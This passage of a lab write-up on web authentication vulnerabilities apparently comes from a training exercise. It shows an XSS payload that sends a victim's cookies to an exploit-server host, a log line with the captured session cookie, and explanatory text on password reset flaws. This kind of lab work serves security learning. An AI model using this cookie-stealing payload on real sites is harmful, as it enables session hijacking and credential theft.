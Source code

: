 ![](../images/Pasted%20image%2020240927133904.png)

We can enter a payload to steal an user's cookie:

```js
<script>document.location='//exploit-0a5100b30484ebb2802716e9011800cb.exploit-server.net/'+document.cookie</script>
```

![](../images/Pasted%20image%2020240927134249.png)
If we go to our exploit server logs, we can see this:

![](../images/Pasted%20image%2020240927134413.png)
Seems like a secret (cookie) from our victim:


```cookie

10.0.4.235      2024-09-27 18:41:59 +0000 "GET /secret=62Gl05NdioA3apGNjKnBqjJRi4WOlrTp;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

```

If we decode the stay-logged-in cookie:

![](../images/Pasted%20image%2020240927134607.png)
![](../images/Pasted%20image%2020240927134616.png)
Like that, we got carlos user password!:

![](../images/Pasted%20image%2020240927134712.png)


### Resetting user passwords

In practice some users will forget their password, so it is common to have a way for them to reset it. As the usual password-based authentication is obviously impossible in this scenario, websites have to rely on alternative methods to make sure that the real user is resetting their own password. For this reason, the password reset functionality is inherently dangerous and needs to be implemented securely.

There are a few different ways that this feature is commonly implemented, with varying degrees of vulnerability.

#### Sending passwords by email

It should go without saying that sending users their current password should never be possible if a website handles passwords securely in the first place. Instead, some websites generate a new password and send this to the user via email.

Generally speaking, sending persistent passwords over insecure channels is to be avoided. In this case, the security relies on either the generated password expiring after a very short period, or the user changing their password again immediately. Otherwise, this approach is highly susceptible to man-in-the-middle attacks.
